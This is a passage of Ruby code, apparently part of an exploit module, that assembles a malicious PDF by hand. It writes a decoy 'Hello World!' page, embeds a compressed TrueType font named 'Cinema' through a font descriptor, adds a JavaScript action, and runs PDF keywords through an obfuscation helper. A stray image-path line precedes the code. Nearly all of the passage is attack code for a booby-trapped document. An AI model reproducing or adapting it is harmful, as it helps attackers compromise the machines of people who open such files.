			# page content
			content = "Hello World!"
			content = "" +
				"0 g" + eol +
				"BT" + eol +
				"/F1 32 Tf" + eol +
				"32 Tc" + eol +
				"1 0 0 1 32 773.872 Tm" + eol +
				"(" + content + ") Tj" + eol +
				"ET"
	 
			xref << pdf.length
			pdf << ioDef(8) << "<<" << eol
			pdf << nObfu("/Length %s" % content.length) << eol
			pdf << ">>" << eol
			pdf << "stream" << eol
			pdf << content << eol
			pdf << "endstream" << eol
			pdf << endobj
	 
			# font descriptor
			xref << pdf.length
			pdf << ioDef(9) << nObfu("<<")
			pdf << nObfu("/Type/FontDescriptor/FontName/Cinema")
			pdf << nObfu("/Flags %d" % (2**2 + 2**6 + 2**17))
			pdf << nObfu("/FontBBox [-177 -269 1123 866]")
			pdf << nObfu("/FontFile2 ") << ioRef(10)
			pdf << nObfu(">>") << eol
			pdf << endobj
	 
			# ttf stream
			xref << pdf.length
			compressed = Zlib::Deflate.deflate(ttf)
			pdf << ioDef(10) << nObfu("<</Length %s/Filter/FlateDecode/Length1 %s>>" % [compressed.length, ttf.length]) << eol
			pdf << "stream" << eol
			pdf << compressed << eol
			pdf << "endstream" << eol
			pdf << endobj
	 
			# js action
			xref << pdf.length
			pdf << ioDef(11) << nObfu("<<")
			pdf << nObfu("/Type/Action/S/JavaScript/JS ") + ioRef(12)
			pdf << nObfu(">>") << eol
			pdf << endobj
	 
